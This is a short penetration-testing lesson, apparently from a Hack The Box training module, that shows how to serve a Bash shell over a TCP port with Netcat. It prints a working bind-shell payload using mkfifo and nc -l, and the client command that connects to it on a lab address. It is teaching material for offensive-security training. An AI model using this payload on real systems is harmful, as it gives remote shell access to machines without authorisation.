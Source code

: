 ## Establishing a Basic Bind Shell with Netcat

We have shown that we can use Netcat to send text between the client and the server, but this is not a bind shell because we cannot interact with the OS and file system. We are only able to pass text within the pipe setup by Netcat. Let's use Netcat to serve up our shell to establish a real bind shell.

On the server-side, we will need to specify the `directory`, `shell`, `listener`, work with some `pipelines`, and `input` & `output` `redirection` to ensure a shell to the system gets served when the client attempts to connect.

#### No. 1: Server - Binding a Bash shell to the TCP session

Bind Shells

```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

The commands above are considered our payload, and we delivered this payload manually. We will notice that the commands and code in our payloads will differ depending on the host operating system we are delivering it to.

Back on the client, use Netcat to connect to the server now that a shell on the server is being served.

#### No. 2: Client - Connecting to bind shell on target

Bind Shells

```shell-session
shakir0x00@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$  
```
